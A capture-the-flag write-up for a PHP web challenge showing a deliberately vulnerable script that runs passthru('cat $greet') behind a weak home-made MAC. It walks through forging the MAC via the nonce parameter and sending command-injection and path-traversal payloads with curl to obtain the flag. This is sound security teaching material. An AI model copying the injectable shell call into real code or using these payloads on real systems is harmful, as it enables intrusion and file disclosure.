 ---===/// HilltopCTF - What Is The Deadly Bug Here? ///===---

CTF Description: Some times ago I stumbled upon a guy who is famous in YouTube,
and I subscribed him! I think he is very passionate and thoughtful about security things,
and one day, he uploaded a video with title: "Let's play a game: what is the deadly bug
here?." I was very amazed back then. But, that video made me think: I can't just stop with
knowing the bug, I need to do better! I have to patch the code. And here I am, I patched the code and it is bug-proof.

When we initially visit the website, we are greeted with `You need to provide 'mac' and 'greet', okay?`
While viewing the headers, we are provided some handy notes left to us by the author of the code.
By passing `?debug` along, we can view their "patched" source code.
```
Headers:

HTTP/1.1 200 OK
Date: Sat, 30 May 2020 12:53:33 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1084
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Source code visible by ?debug

?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```
We need to pass a mac and greet variable to the host. The headers show a `mygreet` and `mymac`, which when
passed will allow the code `echo passthru("cat $greet 2>&1", $err);` to display the greet, which is
aboutme.txt. We need to find a way to pass a greet through to find the flag. To do so we need a corresponding mac for the greet.
```
Aboutme.txt:

The code is patched by me. The 1337abcdefghijklmnopqrstuvwxyz1337 Hacker.
```
I spent several hours staring at the source code, but I'm not much of a programmer and I didn't see anything
obviously wrong. A quick youtube search turned up the video by liveoverflow referenced in the challenge
description. The video referenced an attack where he was able to set the variable nonce to an array,
causing the hash_hmac function to return a NULL, allowing him to bypass knowing the secret.
The patched code in this challenge utilizes an `is_string` check to keep you from passing an array
through, and makes sure you don't try to change the algorithm from `sha256` via `===`. The challenge also
utilizes the hash function instead of hash_hmac, making it less secure, possibly to hash
length extension attacks. Since we know greet is aboutme.txt and the corresponding hash, it seems like it could work.

I spent a whole night trying to utilize a hash length extension attack to pass through
a command to list directory contents to find the flag. After hours of failure, I went to bed
determined to find the solution. The next morning I awoke to a hint on discord that says look
at what you know and how it's calculated. I immediately realized that the function that is formulating
the hash to display in the headers is the same function that calculates secret if we set the variable nonce.
```
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);
```
By setting the variable nonce to aboutme.txt, the secret variable will now be set to the same mac that
is passed to us through the header! Now that we control what the secret is, we can use an interactive
php shell to generate the mac for the payload we want to send. I proceeded to send `;pwd` as a payload to
find our current working directory, which is `/var/www/html`. A hint provided on the ctf website says
what we want is in the `/var/www` directory. The code we are exploiting `echo passthru("cat $greet 2>&1", $err);`
is running the cat command against whatever we pass as greet. We can cat out all files in a directory by utilizing `*`,
so I crafted a mac for `../*` and got the flag!
```
root@kali:~# php -a
Interactive mode enabled

php > echo hash("sha256", "cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c" . "../*");
cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3

root@kali:~# curl -i 192.81.210.234:10002/?mac=cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3\&greet='../*'\&nonce=aboutme.txt
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 13:29:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Length: 125
Content-Type: text/html; charset=UTF-8

HilltopCTF{uh...1think_1mad3_itwors3_s00wy}
That's the flag, please use them wisely.
Thankyou.cat: ../html: Is a directory
```
I spent so much time looking for an error in the code that I overlooked the human error of being supplied a greet
and corresponding match. Once I realized that the answer had been staring me in the face the
whole time I was able to solve the challenge in a matter of minutes.
